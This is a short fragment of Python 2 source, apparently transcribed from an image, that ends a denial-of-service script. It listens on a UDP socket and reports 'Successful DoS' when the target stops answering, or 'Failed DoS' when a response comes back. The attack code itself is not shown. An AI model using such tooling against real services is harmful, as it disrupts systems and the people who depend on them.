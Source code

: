     try:
        while True:
            data, addr = s.recvfrom(65507)  # Maximum UDP data length
            print "------------------------\nFailed DoS...\n------------------------\n"
            print "Response:"
            print addr, data
            exit(1)
    except socket.timeout:
        print "------------------------\nSuccessful DoS!!!\n------------------------\n"
        exit(0)